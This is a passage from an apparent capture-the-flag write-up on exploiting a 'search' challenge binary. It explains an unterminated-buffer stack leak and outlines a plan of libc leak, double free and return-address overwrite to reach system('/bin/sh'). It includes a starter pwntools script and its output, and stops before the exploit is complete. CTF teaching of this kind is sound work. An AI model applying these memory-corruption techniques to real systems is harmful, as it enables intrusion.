 The function reads up to 48 characters into a 48 byte buffer before attempting to convert the string to a number. Note that it does not ensure the buffer ends with a null byte. This means if the string is printed and there is no null byte, we can leak the memory right after the string. Lucky for us, the string is printed in the next few lines when the input begins with something that can't be converted to a number. We will use this for a stack leak.

Now that we understand the binary, we can talk about how to exploit it. The general process is going to be 1) leak a stack address, 2) leak a libc address, 3) get a double free, and 4) use the double free to overwrite a return address to a call to `system(/bin/sh)`.

## Getting a stack leak

The stack leak is the easiest part of the exploit, so we'll start with that.

Here's a basic [pwntools](https://github.com/Gallopsled/pwntools) script to fill up the buffer and see it printed.

``` python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./search-bf61fbb8fa7212c814b2607a81a84adf')
# gdb.attach(p, '''
# ''')

def main():
    p.sendline('A' * 48)
    p.interactive()

if __name__ == '__main__':
    main()
```

You can comment in the `gdb.attach` section when you want to attach `gdb` to the binary.

Running the script gives:

``` python
$ ./solve.py
[+] Starting local process './search-bf61fbb8fa7212c814b2607a81a84adf': Done
[*] Switching to interactive mode
1: Search with a word
2: Index a sentence
3: Quit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is not a valid number
```

So no leak. This isn't surprising considering the code isn't storing any data in that location in this particular function. We were hoping to get lucky and leak any previous data stored there, but we can open up GDB and confirm that memory is filled with zeros. Luckily, instead of looping whenever the input is invalid, the binary recurses instead. This means we can shift the stack lower and see if we get lucky somewhere else!
